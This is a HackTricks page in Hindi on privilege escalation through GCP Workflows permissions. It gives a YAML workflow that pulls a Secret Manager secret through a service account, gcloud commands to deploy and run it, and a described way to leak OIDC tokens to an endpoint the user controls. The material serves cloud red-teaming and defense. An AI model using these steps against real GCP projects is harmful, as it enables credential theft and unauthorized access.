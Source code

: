 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

बुनियादी जानकारी:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

मेरी जानकारी के अनुसार, यह संभव नहीं है कि एक शेल प्राप्त किया जा सके जिसमें उस मेटाडेटा एंडपॉइंट तक पहुंच हो जिसमें उस वर्कफ़्लो से जुड़े SA के क्रेडेंशियल्स हों। हालाँकि, वर्कफ़्लो के भीतर प्रदर्शन करने के लिए क्रियाएँ जोड़कर SA की अनुमतियों का दुरुपयोग करना संभव है।

कनेक्टर्स की दस्तावेज़ीकरण ढूंढना संभव है। उदाहरण के लिए, यह [**Secretmanager कनेक्टर का पृष्ठ**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)** है।** साइड बार में कई अन्य कनेक्टर्स मिल सकते हैं।

और यहाँ एक कनेक्टर का उदाहरण है जो एक गुप्त को प्रिंट करता है:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
CLI से अपडेट:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
यदि आपको `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist` जैसी त्रुटि मिलती है, तो बस **एक मिनट प्रतीक्षा करें और फिर से प्रयास करें**।

यदि आपके पास वेब एक्सेस नहीं है, तो एक वर्कफ़्लो को ट्रिगर करना और उसकी कार्यान्वयन को देखना संभव है: 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
आप पिछले निष्पादन के आउटपुट की जांच भी कर सकते हैं ताकि संवेदनशील जानकारी की तलाश की जा सके
{% endhint %}

ध्यान दें कि भले ही आपको `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` जैसी त्रुटि मिले क्योंकि आपके पास वह अनुमति नहीं है, वर्कफ़्लो उत्पन्न हो चुका है।

### OIDC टोकन लीक (और OAuth?)

[**दस्तावेज़ों के अनुसार**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) यह संभव है कि वर्कफ़्लो चरणों का उपयोग किया जाए जो OAuth या OIDC टोकन के साथ HTTP अनुरोध भेजेंगे। हालाँकि, [Cloud Scheduler](gcp-cloudscheduler-privesc.md) के मामले की तरह, Oauth टोकन के साथ HTTP अनुरोध को होस्ट `.googleapis.com` पर होना चाहिए।

{% hint style="danger" %}
इसलिए, यह **संभव है कि OIDC टोकन को उपयोगकर्ता द्वारा नियंत्रित HTTP एंडपॉइंट** को इंगित करके लीक किया जाए, लेकिन **OAuth** टोकन को लीक करने के लिए आपको उस सुरक्षा के लिए **बायपास** की आवश्यकता होगी। हालाँकि, आप अभी भी **SA की ओर से कार्य करने के लिए किसी भी GCP API से संपर्क कर सकते हैं** या तो कनेक्टर्स या OAuth टोकन के साथ HTTP अनुरोधों का उपयोग करके।
{% endhint %}

#### OAuth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

इस अनुमति के साथ `workflows.workflows.create` के बजाय, एक पहले से मौजूद वर्कफ़्लो को अपडेट करना और समान हमले करना संभव है।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
